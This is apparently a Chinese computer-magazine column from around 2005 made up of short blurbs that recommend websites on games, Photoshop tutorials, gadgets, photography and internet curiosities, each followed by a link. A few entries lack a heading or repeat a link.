《星际争霸》、《反恐精英》、《魔兽争霸》等游戏都是国际电子竞技的重头项目。在中国，也聚集着一群顶尖的高手，其中就包括魔兽争霸四天王：MagicYang、Sky、Suho、xiaOt。他们精湛的操作技术和明确的战术思想，使他们能够在对战中完胜对手。如果你也想成为魔兽高手，就先来听一听他们的战斗心得吧！
文章链接:http://www.pcpop.com/game/05/6/71381/1.shtml

## 废旧光盘做台灯
自从电脑疯狂升级，自从软件不断更新换代，自从有了刻录机，我们手头的废旧光盘越积越多，以前《电脑爱好者》曾介绍过许多怎么妙手利用旧光盘，最近国外一位网友更强，他居然将旧光盘制作成一个漂亮的台灯，并且在自己网站上介绍了详细的制作流程，有兴趣的朋友赶快去看看。（报料人：逍遥小小）
文章链接:http://photocreations.ca/cd_lamp/

## 惊！PhotoShop轻松绘出国画美女
PhotoShop就像魔术棒，有了它，你即使没有任何绘画功底也能绘出各种美图！这不，只要有一张美女照片，你就能轻松将它变成国画美女，为了MM，快去学学吧！
文章链接:http://www.enet.com.cn/A20050614423879.html

## 在你的iPod中安装运行Linux
iPod和Linux这两个概念你能联系到一起么？一个出自刚刚宣布转到Intel架构的苹果公司，一个则是自由软件领域里的英雄。不过有一点是相似的：两者最近都很火。听说美国总统和英国女王都已经投入了iPod的怀抱，如果你与他俩一样正好有台iPod，那何不试试？
文章链接:http://www.poseshow.com/node/238

## Mac机历代CPU经典回顾
当苹果公司CEO史蒂夫·乔布斯宣布Mac将转向Intel平台的时候，我们又多了一个理由来怀念苹果机的过去。这篇文章——展现了Mac电脑从诞生到现在的几乎每款经典CPU，精美的图片和详细的说明文字可以让你对Mac的前世今生有更多的认识。
文章链接:http://www.pcpop.com/doc/0/92/92717.shtml

## 学MCSE，还是学CCNA？
每到暑假就有不少读者来信或打电话询问，现在应该学哪种认证。目前最流行得认证就是微软的MCSE及思科的CCNA。虽然两个认证完全不相干，但从学习的知识及培训后的就业方向，两者在某些方面的确相似。

## 西藏旅游、摄影必备手册
想必很多朋友都会向往那带有一种神秘而神圣色彩的西藏吧？这里，网站的小编为大家整理了一整套西藏旅游手册，将各种注意事项、入藏手续、旅游线路、全年天气状况、全年气温变化规律表、摄影器材准备、摄影器材的保护等等都一一罗列出来，十分详尽。同时，大家还能透过“驴友”的镜头，感受西藏的美！
文章链接:http://www.pcpop.com/doc/0/93/93286.shtml

## 你心目中的编程高手
“谁是你心目中最强的程序员？”微软的一道电话面试题引发了网友的讨论。是传说中在3天中为了测试自己能不能写出操作系统，就开发出了BSD的Bill Joy？或是Quake和Doom的作者，图形技术的天才John Carmack？还是精通编译器技术，在贝尔实验室使用的Unix中安装后门长达14年之久的Ken Thompson？
文章链接:http://www.blogcn.com/wzfl/article/20056/21579142.shtml

## 2005年暑期哪些大片值得期待
暑期将至，而好莱坞也开始猛推大片，想不想知道都有哪些电影，哪些电影值得期待？这里会告诉你好莱坞5月～8月发行的大片，并提供了期待值星级，电影迷们不能错过。
文章链接:http://www.mov8.com/movie/summer2005.asp

## 便宜本本也要精挑细选
笔记本降价已经成为流行，现在的你可能已经忍不住要出手了。如果是10000元以上的预算，那选择的余地就相当大了。但如果是6000元或者更便宜的机型，那么要找出适合自己的就不太容易了。那么如何在低价机中挑选出物超所值的“良机”呢？
文章链接:http://www.pcpop.com/doc/0/93/93348.shtml

## 10大奇图挑战你的眼力
可能这里的一些图片你以前也曾经看到过，有些还被一些讲师带到培训课堂中作为测试题。它们的共同特点就是对你的眼力进行考验，当然也有人说，它们还能考察出人们的智力水平，不管怎样，这些图片真的很有趣，很神奇。
文章链接:http://www.enet.com.cn/A20050614423697_1.html

## 工程师放出笔记本电脑终极技
笔记本电脑，这个曾经是少数白领或者专业人士的专用品，正在以越来越快的脚步进入大众的生活，越来越多的人正在使用或正打算购买笔记本以满足自己工作、学习或工作的需求。但你了解它吗？本文从成本、显示技术、散热误区、实体结构拆析等方面进行终极讲解，让你从市场、技术、产品内部结构等，全方位彻底了解笔记本电脑的一切。
文章链接:http://www.pcpop.com/topic/nb_tech_0501/

## Photoshop CS 2体验完全手册
Photoshop CS 2已经推出了一段时间了，但你是否真的全面了解它呢？是否已经掌握了它为我们提供的新功能呢？如果你的答案是No，请赶快看看这里的专题吧。
文章链接:http://www.photoshopcn.com/index.php?act=subject&subject_id=1

## 让你看歪脖子的巴黎全景图

风景图你可能已经看的不少了，可你是否相信在一张图中能够容纳整整一座城市呢？现在就有这么一张341×8000的超级大图，容纳了巴黎的全景，包括埃菲尔铁塔、凯旋门和巴黎圣母院等名胜，而且这张图据说能让你看歪脖子。

文章链接: http://www.poseshow.com/node/242

## 别让艺术和你擦肩而过：废旧纸板的妙用

对于一堆废弃的纸板，你可曾想过它们怎么办呢？看看这个搜集众多纸板涂鸦作品的有趣网站，只要你能充分发挥你的想象力，尽情地涂鸦，那么，就可以使一块纸板变废为宝，成为一件艺术品，而不让艺术与你擦肩而过。网站比较人性化，提供了在线涂鸦板，界面清新，操作更有亲手执笔绘画的快感觉。另外，在完成在线涂鸦后，如果你对自己的涂鸦作品有足够的信心，还可以截图通过电子邮件寄给网站，幸运的话，你的涂鸦大作还有机会发布在站上！（报料人：逍遥小小）

文章链接: http://www.neu-e.de/

## 40亿像素的照片

家用的数码相机，一般都在百万像素级，而今天要给大家看的，是40亿像素的超高清晰数码相机！据称，这个相机拍出的照片大小约在每张25GB，也就是说一个120GB的大硬盘只能存放4张这种数码照片。网页中展示了一张用此技术拍摄的航天飞机全景图和这张照片的局部放大图，要感受超高清晰的威力，就来看看吧！

文章链接: http://www.fengniao.com/product/article/1/26/5116.htm

## 细菌玩具，你见过吗

我们生活的空间存在着无数微生物和细菌，其中有些病菌会给人类带来各种各样的疾病。但你肯定想不到，把这些让人恨之入骨的病菌放大100万倍并做成毛绒玩具后，它们竟变得这么可爱。美国的一个玩具制造商就推出了一个‘病菌毛绒玩具’系列，那些导致感冒、胃痛、咳嗽等的病毒和细菌都被活灵活现地表现出来。另外，每个玩具还带有一份标有病菌真实图像和说明的指导卡片。

文章链接: http://comic.sina.com.cn/cysk/2005-06-15/004257728.shtml

## 迷你Unix，软盘带走

提起Unix，你可能会说：‘不就是服务器使用的系统吗？’ 没错，Unix是一种完整的，较为复杂的服务器操作系统。可是，如果我说能将它用一张软盘带走，你还会这样不以为然吗？这个页面里有几十种能够用一两张软盘带走的迷你Unix系统。

文章链接: http://www.cotse.com/miniunix.htm

## MARS-1玩具设计过程解析

来自美国San Francisco的玩具MARS-1系列，以其独特的造型，怪诞的设计风格而闻名，设计者是如何进行构思的呢，以及制作的过程又是怎样，这些无疑都是我们想知道的，就让我们看看有趣的制作过程吧。

文章链接: http://www.arting365.com/article/php?articleid=8142

## 快闪手册——Alt键的妙用

## 在网页上实现的操作系统

你可能听过TriangleOS、Menuet OS等可以用装软盘就能装得下的操作系统，但我敢打赌，你一定没听说过在网页上就能直接运行并完成所有功能的操作系统。该系统有点象UNIX，实际上它是用网页脚本JavaScript编写的，我相信只有天才才能有如此美妙的创意。

文章链接: http://www.poseshow.com/node/306

## 用意志来控制电脑么

我们只要用大脑一想，事儿就干完了，每个人都在自己惰性复发的时候有过这样的幻想，而现在BrainGate通过把一个体积很小的芯片植入大脑皮层，从而使电脑程序与人脑直接地发生联系，比起物理性操作（用手来控制鼠标和键盘）就更加便捷，所想即所得正是它的神奇之处。人脑的思维可以直接控制电脑，那么电脑作为一种媒介，我们很容易就想到一些扩展功能，比如还可以通过电脑来控制电灯开关，电视，空调，冰箱等一切应用了微电脑技术的设备，这些就是通过一个叫Brain computer interface[BCI]的软件界面来操作的，安装了这套设备的人，只需要用意志来控制鼠标，然后点击按钮就可以了。不信？那就来看看这段视频吧，小心下巴掉在地上了。（报料人：逍遥小小）

文章链接: http://a1112.g.akamai.net/7/1112/492/03312000/www.wired.com/news/audio/wmp/high/CyberkineticsDemo.wmv

## HelloWorld经典大全

无论是C、C++、VB，还是Java，在初学的时候都习惯于使用‘Hello,World!’的经典例子作为开始。可是你是否知道一共有多少种HelloWorld？当上百种HelloWorld齐聚一堂时，会是一种什么样的景象呢？在这个页面中甚至能够找到Algol-60这些生僻语言的HelloWorld实例。

文章链接: http://www.roesler-ac.de/wolfram/hello.htm

## 彩调基础：摄影者的视觉的依据

如何获得一张好的摄影作品？相信这是大家在不断反问自问自己的一个问题。很多朋友都觉得自己受美术教育是必须的，这些东西看了就是舒服。其实，即使你没有受过美术教育，也同样能做得很好！视觉是有规律可遵循的，有了这些依据，你可以走到更高……

文章链接: http://www.arting365.com/htmldata/2005_03/25/26/article_3953_1.html

## 日本百年科技预言成真 23个中有17个成现实

日本内阁会议近日对《2004年度科学技术白皮书》进行了总结。这份白皮书在评论栏目中对1901年日本报纸发表的科技预言进行了点评，在当时的23个预言中有17个已变成现实。对于‘7天环游世界’这样的预言早已成为现实，反倒是‘消灭蚊子和跳蚤’这样看似简单的愿望却迟迟难以实现。

文章链接: http://tech.sina.com.cn/d/2005-06-13/0700633379.shtml

## 两千多年前的‘明星脸’

几千年前古人的画像及艺术雕塑，其然能与当前正红的明星脸一一对号入座，再惊讶两者之间是如此神似之外，也很佩服发现者的想像力。

文章链接: http://www.pooga.cn/user/116/archives/2005/153.asp

## 韩国商业网站设计分析

这篇文章对韩国几个经典的商业网站的页面结构，色彩构成进行了分析，图文并茂，对想制作出漂亮网页的读者来说，一定会有很多的收获。

文章链接: http://www.arting365.com/htmldata/2005_05/108/103/article_6777_1.html

## 又见玩家自编游戏——《精忠报国 岳飞传》

不知道大家是否记得‘梦幻战争’（http://www.winspy.net），如今又有一款不错的玩家自编游戏推出，名为《精忠报国 岳飞传》。这款游戏由‘轩辕春秋文化论坛’（http://www.xycq.net/）推出，通过修改《三国志·曹操传》的游戏引擎，最终打造出的全新战棋游戏。从名字就可以看到，游戏讲述了一代民族英雄岳飞在宋金战争中英勇抗金的英雄故事。除了忠于史实的剧情路线外，为了提高游戏性，游戏还准备增加如岳家军直捣黄龙、岳飞与成吉思汗会战等虚构情节。目前游戏已经完成了第一章的四关，喜欢的朋友还不快去下载试玩？

文章链接: http://www.xycq.net/forum/index.php?showtopic=62332&st=0

## iPod flea来啦！

从最初的iPod到后来的iPod mini，再到前段时间非常流行的iPod shuffle，苹果公司的iPod系列一代比一代小。那么下一代的iPod将会是什么样呢？下面这里就有一段iPod下一代新品的爆笑猜想视频，看看这款传说中的iPod flea到底长什么样。当然，‘华丽’的配件也是一个不能少的……什么？你还不知道flea是什么意思？那还不快去查查字典：）

文章链接: http://www.imp3.net/article/article.php?articleid=4948

## 全Flash界面的免费E-mail

不知道你是否听过微软的全Flash界面blog——Wallop（http://www.mywallop.com），这里给你介绍另外一个全Flash界面的邮箱站点，站点提供100MB免费空间，申请获得的邮箱形式为user@goowy.com。如果你嫌Gmail界面过于朴素，那就试试吧。

文章链接: http://www.goowy.com/

## 命令行玩转FTP

你在使用FTP协议上传文件时，使用什么方法？我想大多数人的回答应该都是FlashFXP、CuteFTP之类的FTP客户端软件。其实使用系统自带的FTP程序，也能够玩转FTP上传，但由于是命令行方式，很多人就望而生畏了。这里有一个详细的命令行FTP使用手册，在没有安装FTP软件的时候，我们一样能够上传FTP了。

文章链接: http://www.blueidea.com/computer/soft/2004/2228.asp

## 背诵圆周率，冲击吉尼斯纪录

最近，一个日本的老人将圆周率背诵到了小数点后第83431位，不知道你是否考虑过来刷新这一记录。如果答案是肯定的，那么你可以看看该站点为你提供的方法。

文章链接: http://www.postshow.net/node/375

## Google上找不到的东西

很多朋友一遇到不了解的问题，都会首先想到用Google来找答案。Google总是那么神奇，几乎总能满足我们的愿望。但谁都相信，Google并非万能。如果你遇到Google中搜索不出结果的问题，那就将这个问题提交到下面这个站点吧。

文章链接: http://www.cantfindongoogle.com/

## 能看穿你心思的网站

首先随便想一个物体（比如鼠标、键盘或者猫、狗，反正什么都行)，接下来打开这个站点，点击“开始游戏”，网站会询问你20个问题，你只需要回答“是”、“不是”或者“也许”，20个问题回答完毕时，结果会让你大吃一惊。
文章链接:http://y.20q.net/

## 一个点与线的Flash游戏

游戏规则很简单：移动游戏画面中点，不要让画面中的线相交。该站点还在收集网友的挑战纪录，目前有人玩到了第12关，却因为电脑处理速度跟不上而作弊……
文章链接:http://www.postshow.net/node/492

## 公元3000年的生活是什么样

1000年以后我们的生活会是怎样的？不管怎样，那个时候我们早已不在人世。正因为如此，我们才可以随意发挥。互联网上总是少不了拥有古怪想法的人，他们将这些创意制作成动画，你可以提前体验一下。
文章链接:http://www.postshow.net/node/445

## 读遍全球报纸头条

这个站点提供了每天全球40多个国家超过400份报纸的每日头版，可惜没有中国内地的报纸。如果你的英文还算不错，这个站点一定不能错过了。
文章链接:http://www.newseum.org/todaysfrontpages/

## 左脑 VS 右脑

大脑分左右，而且左右脑负责的具体“工作”也不同。那么你有没有想过让左脑和右脑较量一下呢？这可不是“关公战秦琼”的幻想，只要你输入下面的网址，再点下“GO PLAY”，就可以让它们比比看了……
文章链接:http://www.tetris1d.org/zigah/twinoo/

## 你的邮箱反垃圾邮件的能力如何？

填写好你的邮箱地址，点击“Send password”，你会收到一封包含密码的邮件。接下来输入你的密码，点击“Send spam sample”按钮，这个站点会自动发送30封垃圾邮件到你的邮箱，你可以看看你的邮箱反垃圾邮件的能力究竟如何。
文章链接:http://www.cloudmark.com/spampler/

## 给RM文件加个Flash的片头

现在都讲求个性化，于是给Windows换“壳”，给软件换肤成了最流行的事。说到这里，不知你是不是也想为RM格式的视频文件添加上一个Flash片头呢？
文章链接:http://publish.it168.com/2005/0414/20050414015201.shtml?cChannel=0&cPositionCode=22_0

## 奢侈名牌、限量手机全接触

自从诺基亚推出全球最贵的手机Vertu后，我们走进了这个连电子产品也可以成为收藏品的时代。人们好像对所有奢侈品牌不屑一顾，世界顶级名牌LV的包包在现在的Office Lady手中几乎是标配。这里向大家介绍10款手机，还有10个世界顶级奢侈品品牌。
文章链接: http://tech.sina.com.cn/mobile/n/2005-07-08/0804657471.shtml

## 我长得象我家小狗狗

国外组织了一次非常有趣的比赛，该比赛名为“I look like my dog”(我长得像我的狗)，参赛者只需要将你和你家狗的合影发送给组织者即可。目前比赛已经结束了，想知道狗和人之间到底能相像到什么程度么？
文章链接:http://www.postshow.net/node/384

## 去比尔·盖茨家做客

提起比尔盖茨，大家可能对他的印象就是“世界首富”、“微软公司创始人”，你知不知道他的家是什么样的？他曾经说过：“我不是在为钱而工作，钱让我感到很累。”去盖茨家坐坐，看看他们夫妇是如何看待金钱的，如何布置自己房间的。
文章链接:http://www.pconline.com.cn/pcjob/rs/zc/0507/663720.html

## 用本本做马桶

ThinkPad笔记本可以用来做什么？作为商务型笔记本中的经典之作，即使是一个穿着花哨的MM拿着它也会有一种专业的感觉。划船、扫垃圾、铲雪、当马桶用、当菜板垫着，你见过有人用ThinkPad做这些事吗？老外就可以，让我们来看看这些疯狂的老外是怎么使用ThinkPad笔记本的。
文章链接:http://www.pcpop.com/doc/0/97/97635.shtml

## 噩梦！6部必看的灾难片

人类对可能发生的灾难所产生的恐惧，在各种灾难片中表现得淋漓尽致。以外星人入侵地球为题材的《独立日》，以真实题材为背景的爱情灾难片《泰坦尼克号》，《世界末日》描写了彗星撞击地球……这是6部不容错过的灾难片，人们往往能在灾难的恐惧中引发更多的思考。
文章链接:http://pop.pcpop.com/050715/1658252.html

## Photoshop认证漏题

很多图像处理爱好者都希望有一张Adobe的Photoshop认证，但是你是否已经“修炼”到了足以通过认证的级别？如果为了测试一下水平就花钱去通过认证就太奢侈了，这里有网友整理的Photoshop认证全真试题，测试一下吧。
文章链接:http://www.pconline.com.cn/pcjob/other/design/adobe/0507/662821.html

## 构图的困惑

摄影中的构图真的有那么重要吗？好的构图怎么就看着那么舒服呢？构图有没有诀窍呢？构图会不会捆住我们的手脚，使我们变得教条呢……初学者在进行摄影构图时，心中难免有诸多困惑，那就看看这一系列的文章吧。将网址最后“id=674”中的数字依次增加，将得到后续的文章。
文章链接:http://ej.ccw.com.cn/sy/sy_3j.asp?id=674

## 一个女孩写的恋爱程序

一个女孩编写的恋爱程序，也不知道能否编译成功。假如真的能编译成功，又不知运行时能得到什么样的结果。无论如何，权当饭后一笑。
文章链接:http://www.dastu.com/2005/7-1/145326.asp

## 数码摄像机进化论

随着时间的推移，一个产品类别将会进一步分裂成两个或两个以上产品类别，而新的产品类别的出现往往代表着未来演进的趋势……需求推动摄像机的进化。
文章链接:http://ej.ccw.com.cn/sy/sy_3j.asp?id=1400

## 歌神张学友传

他没有出众的外表，却有一副无与伦比的嗓音；他在歌坛叱咤风云，在生活中却非常低调。他就是“歌神”——张学友。他连续两年从世界音乐颁奖礼上捧回“全球最高销量华人歌手大奖”。在世界级巨星中，他的唱片销量仅次于杰克逊，远高于排名第三的麦当娜。以前曾经在书店里见过张学友传，现在有了网友整理编写的免费版本，千万不要错过！
文章链接:http://club.yule.sohu.com/lianza/lzr-9976-81120-1120450578.html

## CNET 10年最经典的10款软件

CNET最近为了庆祝其10年华诞，评选出了其旗下的世界上最大的下载站点Download.com在过去10年中下载量最高的10款软件。其中有正火的Skype、Firefox，也有过气的ICQ、Winamp，这10款软件中你装过哪几款呢？
文章链接:http://www.postshow.net/node/449

## 除了IE，别的浏览器都能正常显示的页面

制作这个站点的一定是微软的坚决对抗者，如果你用IE打开它，你会看到乱七八糟的页面，但如果你用Firefox、Opera等浏览器，页面就非常漂亮。其实这正是利用了“对PNG图片支持不力”这个IE的软肋，等IE 7.0发布后，情况或许会得到些改观。
文章链接:http://blog.paularms.com/article/too-cool-for-internet-explorer

## 中国应用软件生存调查

目前看来，中国软件不是缺乏学习的样板，而是美日印等国的软件产业发展模式都不适合我们。中国软件产业必须开创一条以应用为特色的混合发展模式。
文章链接:http://news.ccidnet.com/zhuanti/0713swm/index.htm

## 在线英语语法辞典

在线浏览英文网站，翻译的时候碰到了语法问题，怎么办？难道还要找出那本早就扔到角落里的厚厚的语法书么？其实不用这么麻烦的，直接查阅在线英语语法辞典就可以了，又快又方便。
文章链接:http://www.dastu.com/grammar/

## 谁在拿高薪——IT业薪酬调查

知己知彼方能百战不殆，对那些跃跃欲试准备踏入IT界的人士，本文给你提供了诸多的参考数据。好好了解一下IT的“薪”情吧，然后再决定是勇往直前，还是另辟蹊径。
文章链接:http://www2.ccw.com.cn/05/0526/a0526a08_7.asp

## 残破的墨迹——精彩的Photoshop教程

一个非常棒的Photoshop制作教程，包含了纸质纹理制作、做旧、印章制作等多种技巧，最终完成的模仿旧字画效果，惟妙惟肖。
文章链接:http://p5.club.163.com/viewArticleByWWBoard.do?boardId=photoshop&articleId=photoshop_10574d666003b1a&boardOffset=0

## 穷人的法拉利，廉价1GB MP3

预算有限的情况下，购买MP3大多会选择128MB、256MB左右的容量，但是iPod的到来让世界懂得了MP3容量原来可以是上GB的，现在还用128MB的MP3，难道不觉得太小吗？没关系，穷人也能开自己的法拉利，在廉价的1GB MP3产品中，仍有一些不错的选择。
文章链接:http://www.pcpop.com/doc/0/99/99828.shtml

## 未来生活会是怎样

未来的生活会是什么样呢？三维电视、超级过山车、让盲人复明的“眼睛”、带有智能墙壁的塑料小屋，还有太空旅游的必备之物，这些未来的产品你现在就可以提前看到，怎么你还不心动吗？
文章链接:http://www.pcpop.com/doc/0/99/99238.shtml

## 中国十大富翁的学历

比尔·盖茨大学肆业，最后成了世界首富。那么这个规律对于其他人是否同样适用呢？来看看这篇文章，你会看到，中国十大富翁中本科以下的学历居然占了相当一部分。难道真是的越学越傻？呵呵，对于没有# 有富翁命的人来说，还是专心学习吧。

文章链接:http://www.pconline.com.cn/pcjob/rs/zc/0507/664050.html

# 外星人也爱blog？

60年前，人类开始向外太空发射电视信号。从那时候起，人类就在寻找可能存在的外星生命。这个站点在做一件非常有趣的事情——你只需要你的blog的RSS地址，该站点将通过地面发射器的碟状天线将信号传送到地球同步卫星，向外层空间的外星文明广播你的blog。目前，该站点已经收集了来自10多种语言、30多个国家的300多个RSS地址。赶快去提交你的blog吧，说不定哪天真有外星人来访问你的blog呢……

文章链接:http://bloginspace.com

# 为你的站点创建一个免费logo

如果你在网上有个自己的小窝，但你却是个不会Photoshop、Fireworks的菜鸟，如何拥有一个极具创意的站点logo呢？只需要根据站点的向导式制作完成流程即可。logo制作完成后，站点会要求你支付99美元来购买，不过你可以用截图软件将制作好的logo抓下来就行了。

文章链接:http://www.postshow.net/node/558

# 建立你自己的“google主页”

每天都在使用Google的你一定对它的logo非常熟悉吧？如果你想制作一个拥有自己logo的Google主页，可以直接打开该站点，输入你想要的文字(比如Cfan's Google)即可，效果非常酷。

文章链接:http://www.logogle.com/

# DIY美国总统布什

有人说他是美国历史上最富有喜剧天赋的总统，有人说他是世界头号恐怖分子，有人觉得他的笑容让民众感觉到亲切，有人说他太喜欢挑衅和武力。这个叫做“Build a better bush”(制造一个更漂亮的布什)的站点则拿这位总统开涮，你可以随意更换美国总统布什的头发、眉毛、脸蛋什么的，想他秃头他就秃，想他掉几颗牙齿他就掉给你看。

文章链接:http://www.postshow.net/node/515

# 吃一口iPod

你可千万别真的把硬梆梆的iPod往嘴里塞，这里所说的iPod实际是一个根据iPod外形仿制的大蛋糕，看着就想咬一口噢～

文章链接:http://www.pcpop.com/doc/0/101/101143.shtml

# DIY自己的Flash电影

如果你不会Flash，如何制作专业的Flash电影呢？这个网站可以帮你办到。只需要选择场景、情节、出场人物，输入对白或独白，最后提供自己的邮箱即可收到由你DIY的Flash电影了。自编、自导、5分钟就搞定，不知道你会不会有成就感？稍有点遗憾的是，人物对白不支持中文输入，看来台词得用英文了。

文章链接:http://www.postshow.net/node/590

# 进口32英寸液晶电视导购

如今液晶电视已经越来越便宜，如果现在你刚刚搬家，不如考虑购入一台高清晰、轻薄、省电、无闪烁、无辐射的液晶电视。毕竟这是今后的趋势就是如此。面对市场上那些32英寸液晶电视，你应该选择哪一款呢？参考一下专业人士的意见吧。

文章链接:http://www.pcpop.com/doc/0/98/98455.shtml

# 微软Virtual Earth和Google Maps谁更强

Google和微软都推出了自己的地图搜索服务，一个是搜索界的神话，一个是IT界的常青树。有热心网友将两个功能揉合到了同一个页面，你只需要输入地名，比如“beijing”，或者输入Virtual Earth、Google Maps中搜索某地名获得链接，单击“Find”，就可以比较一下两家公司提供的服务究竟谁更牛。

文章链接:http://www.jonasson.org/maps/

# 钉子的哲学

其实已经是很老的一个网页了，而且用的是大家熟悉的“如果你收到这封信，转发给XX个人”的传播方式。狂PK本身很讨厌这种传播方式(因为删除了一条带有诅咒的短信，整整倒霉了半个月啊……)，但在读完这段话后，却发现与原来那些迷信的东西不同，这个故事可能真的会给你和你身边的人带来幸福。至于为什么，自己想想就明白了。

文章链接:http://www.bohope.com/myfriends.htm

# 微距里的昆虫世界

细小的昆虫，有时用肉眼也看不清楚，不过我们可以透过微距拍摄来把微小的昆虫世界都拍得一清二楚。当我们细心观察，就会发现这些美丽的小虫们，总是悄悄地躲在不引人注意的草丛里，安静详和。

文章链接:http://article.xitek.com/showarticle.php?id=2619

# 人人做专家

Windows平台上出现的问题、故障，几乎都可以在微软的在线支持网站上找到，很多高手都是通过这个知识库学到了大多数系统问题的解决方法。可以这么说，有了微软的在线支持网站，人人都能做专家。可是，微软的在线支持网站究竟怎么用，还有怎么用才能用好？成为专家之前，先来补习一下这些预备知识吧。

文章链接:http://support.microsoft.com/gp/newguide/zh-cn

# 哪些MP3你不该买

网上有很多MP3随身听导购文章，大多是介绍MP3随身听的特色功能，但实际上，你静下心来想一想，难道它们真的对你有用吗？为什么要为这些“花哨”的功能而多花钱呢？看过本文之后，也许你就会同意小编的意见了。

文章链接:http://tech.sina.com.cn/digi/2005-07-22/0917670412.shtml

# 制作爱情纪念章

和她闹别扭了？在送花献殷勤之前，先来试试这招——做一枚两人的爱情纪念章。通过一个简单的软件，就能将两人的影像容纳到纪念章中，通过软件的特殊处理，便成了一枚极具收藏价值的爱情纪念章(当然，收藏价值仅限于当事人而言……)

文章链接:http://www.enet.com.cn/article/2005/0430/A20050430412665.shtml

# 没有三角架也能稳如泰山？

我们在没有三脚架拍摄时，如何更好地把持相机拍摄出相对清晰的照片？除了使用焦距对应法则之外，正确的持机拍摄姿势是一个非常关键的因素。这里通过大量的图示，形象生动地讲解了在拍照时如何稳定相机的各种方法技巧。

文章链接:http://b5.club.163.com/viewArticleByWWW.m?boardId=photoclass&articleId=photoclass_105487a07523b62&boardOffset=0

# 一步一步画卡通

一个用Photoshop绘制卡通人物的教程，图片参考了一个活泼可爱的卡通小女孩的形象，绘制的步骤非常详细，对鼠绘爱好者会有所帮助。

文章链接:http://bbs.asiaci.com/viewthread.php?tid=71644&extra=page%3D1

# CPU主频进入7GHz？

里会有7GHz的CPU呢？原来这又是超频狂人干的好事，这群人终于将一颗P4 670超频至了约7GHz。不知，是否会由于这群人的存在，而让CPU行业提前进入10GHz+时代。

文章链接:http://www.pcpop.com/doc/0/101/101265.shtml

# 软件编程高手是这样练成的

要成为武林高手，需要长时间的勤学苦练。要成为软件开发高手，又需要多长时间呢？《Modern C++ Design》的作者Andrei Alexandrescu认为：一个人有可能在20几岁就成为编程高手，但要成为设计高手却需要熬到35岁左右。以23岁大学毕业开始计算，要经过漫长的12年时间。从本文作者的经历中，也许你能得到一些借鉴。

文章链接:http://e1.club.163.com/viewElite.m?catalogId=4782&eliteId=4782_100d22e974e0017

# 智能ABC中的“v”和“i”

在这个“万码奔腾”的年代，智能ABC输入法显示得越来越不起眼了。不过作为Windows默认的输入法之一，使用它的人还真挺多，而且新装系统后还没来得及安装其他输入法时，智能ABC也许是你最称心的输入工具了。可是要想让智能ABC用起来更快捷、更方便，你就一定得了解其中“v”和“i”这两个字母的秘密。

文章链接:http://soft.zol.com.cn/2004/1129/140565.shtml

# 你能破解这个无字小说吗

这是一部标题叫《。》的小说的全部内容::?
:!
“……”
(、)《,》
；——
据说它讲述了一个缠绵悱恻的爱情故事，小说的作者悬赏14万元寻找破译者。抛开这种表现形式不谈，你能道出这14个标点符号背后的秘密么？

文章链接:http://www.postshow.net/node/507

# 透明婚纱抠图大法

抠图真是门学问，Photoshop高手无一不是抠图高手，这种需要长久练习的技术并非一朝一夕能够掌握的。但是，如果是针对某项特定材质的抠图，必然是会有窍门的，来看看高手是怎么将婚纱照抠下来的。

文章链接:http://www.enet.com.cn/article/2005/0124/A20050124385212.shtml

# 罕见！Windows非主流技巧收集

有时候一些奇奇怪怪的技巧倒能帮我大忙，或者给我们带来很大的方便。这个网页收集整理了大量Windows系统中的非主流技巧，有些技巧相当罕见，但对于特定的使用者来说可能很实用，因此推荐给大家。

文章链接:http://www.enet.com.cn/article/2005/0124/A20050124385212.shtml

# 挑战极限！32MB运行Windows 2000

运行Windows 2000最少需要多少内存？128MB？64MB？不如你来试试在32MB的电脑上运行一下Windows 2000，看看是什么效果……

文章链接:http://news.csdn.net/news/newstopic/24/24079.shtml

# 唐骏：中国式管理

在中国做管理，光有基本的管理理念是不够的，也需要一些个性化，这缘于中国文化。中国人最怕的是被感动，如果你感动了他，那么他会为你赴汤蹈火，这是中国人的性格。在美国做管理，你不需要感动员工，只要按合同支付报酬就行；而在中国，人们追求的更多不仅是金钱，还有感觉。

文章链接:http://blog.ccw.com.cn/%E5%B0%8F%E8%81%8A/index.jsp?category=showPost&postID=920

文章链接:http://www.pcpop.com/doc/0/103/103401.shtml

现代镜头，而是 Zeiss / Schneider / Voigtlander / Rodenstock / Leica 这些扬威（要说 X 菱也可以）已的德系老镜头。配合 EF 系统镜后距短，以及 Canon 机身缩光圈就可以测光的两个优势，这些已有四五十年历史的老镜，也可以绽放出迷人的光芒……

文章链接:http://www.dslr.com.cn/lens/test/200508/2440.html

# 刘德华 10 ~ 80 岁照片曝光

知道刘德华小时候什么样子吗？你可能看过他童年的照片，但你肯定没有见过他 80 岁的样子。本篇文章就能让你看到 80 岁时的他……只要你学会了方法，你甚至能看到 80 岁时你自己的样子，请关注近期多媒体栏目的文章。

文章链接:http://www.pcpop.com/doc/0/103/103272.shtml

# QQ 活跃天数查询地址

QQ 挂级制度已经改变了，现在是按天来计算。QQ 网站有一个地址，是用来查询 QQ 活跃天数的信息，也就是挂级制度改变后才出来的。等用到时，方便取用。QQ 查出来的结果如下格式：已有天数：1048 已有小时数：5097 目前等级数：30 升级所需天数：37

文章链接:http://im.qq.com/cgi-bin/special/get_level

# 图解《古镇小雨》

“江南雨，风送满长川，碧瓦烟昏沉柳岸，红绢香润入梅天，飘洒正潇然。”本教程正是使用 Photoshop 加 ImageReady，制作出一幅美仑美奂的江南烟雨 GIF 动画。本教程采用全程图解的方式，一步一步，整个制作过程清晰明了，可通过这个实例好好体会 ImageReady 的使用方法。

文章链接:http://e1.club.163.com/viewElite.m?catalogId=49024&eliteId=49024_10321721404021b

# 纠正你的枪法误区

什么是点射？什么又是连射？为什么在连射的时候准星失去了作用，而高手却能通过高超的压枪技术让弹道始终保持在一个直线范围内。菜鸟在初入 CS 时，对于枪的使用方法如果不正确，就很难有大的提高（柳絮飞：“怪不得我老被爆头呢……”）。这篇文章就是为了纠正菜鸟不正确的用枪方法而写的，读完之后在 CS 操练时就会在跑位、瞄准等操作中有所提高。

文章链接:http://woainiyxp.blogchina.com/2123331.html

# 探探 Vista 的游戏性能

Windows Vista 来了，我们不说它所要求的硬件配置，也不提它的病毒，我们只关心它的游戏性能。现在主流的 6 款游戏在 Windows Vista 中有几种表现呢？快来看看吧。

文章链接:http://www.pcpop.com/doc/0/100/100379.shtml

# 1100 万像素 5 张连拍

这是位于美国加州圣地亚哥的一家特殊用途相机制造公司 REDLAKE 所发布的一款数码相机——EC11000。超级高的像素与超快的连拍速度让人叹为观止！惊奇吧？这样的连拍速度，绝对不会让你错过任何一丝风影雨动！

